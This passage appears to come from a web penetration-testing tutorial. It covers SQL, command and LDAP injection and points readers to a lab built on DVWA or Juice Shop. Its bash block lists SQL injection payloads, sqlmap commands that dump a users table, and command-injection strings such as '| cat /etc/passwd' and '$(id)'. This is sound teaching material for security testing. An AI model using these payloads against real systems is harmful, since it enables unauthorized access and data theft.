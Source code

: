 > **Hands-on Exercise:** Set up a deliberately vulnerable web application like DVWA or Juice Shop in your lab environment. Use a combination of passive and active reconnaissance techniques to gather information about the application. Create a comprehensive map of the application including directories, files, endpoints, parameters, and technologies used. Document your findings and identify potential security issues based on the reconnaissance phase alone.

## 3. Common Web Vulnerabilities and Exploitation

### 3.1 Injection Flaws

Exploiting applications that fail to properly validate user input:

1. **SQL Injection**:
   - Technique: Inserting SQL code into application inputs
   - Impact: Unauthorized data access, authentication bypass, data modification
   - Testing: Manual input manipulation, automated tools (SQLmap)
   - Prevention: Parameterized queries, ORM frameworks, input validation

2. **Command Injection**:
   - Technique: Inserting OS commands into application inputs
   - Impact: Server compromise, unauthorized command execution
   - Testing: Injecting command separators and shell metacharacters
   - Prevention: Input validation, avoiding shell commands, using APIs

3. **LDAP Injection**:
   - Technique: Manipulating LDAP queries through user input
   - Impact: Authentication bypass, information disclosure
   - Testing: Injecting LDAP filter metacharacters
   - Prevention: Input sanitization, proper LDAP query construction

```bash
# Example: SQL injection testing

# Step 1: Basic tests for SQL injection
# Try these payloads in login forms, search boxes, and URL parameters:
' OR '1'='1
" OR "1"="1
' OR '1'='1' --
admin' --
' UNION SELECT 1,2,3 --
' ORDER BY 10 --

# Step 2: Automated SQL injection with SQLmap
# Test a specific parameter:
sqlmap -u "https://example.com/page.php?id=1" -p id --dbs

# Test a form:
sqlmap -u "https://example.com/login.php" --forms --batch --dbs

# Dump a specific table:
sqlmap -u "https://example.com/page.php?id=1" -D database_name -T users --dump

# Step 3: Command injection testing
# Try these payloads in search forms, ping tools, etc.:
; ls -la
& whoami
| cat /etc/passwd
`id`
$(id)

# Step 4: Test for blind command injection
# Use time delays to detect blind injection:
; sleep 10
& ping -c 10 127.0.0.1
| timeout 10
```